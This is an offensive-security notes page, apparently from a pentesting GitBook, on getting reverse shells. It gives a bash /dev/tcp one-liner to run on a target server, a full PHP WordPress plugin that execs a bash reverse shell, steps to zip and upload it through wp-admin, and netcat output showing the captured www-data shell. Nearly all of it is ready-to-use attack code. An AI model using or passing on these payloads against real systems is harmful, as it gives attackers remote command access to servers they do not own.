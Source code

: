 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

### Reverse Shell via Bash TCP

We start by Listening in our host first `~$ nc -nvlp PORT_NUMBER` ; then we execute the below command on the attacked server:

{% hint style="info" %}
To ensure our reverse shell is executed via bash, make sure to add `bash -c`&#x20;
{% endhint %}

```bash
bash -c "bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"
```

Check this [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) by swissky.

### Reverse Shell via Wordpress Plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```sh
zip reverse-shell.zip reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

after activating it,  use netcat to listen on port 443 and catch the shell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443                          
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@example:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```



**Resources:**

* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

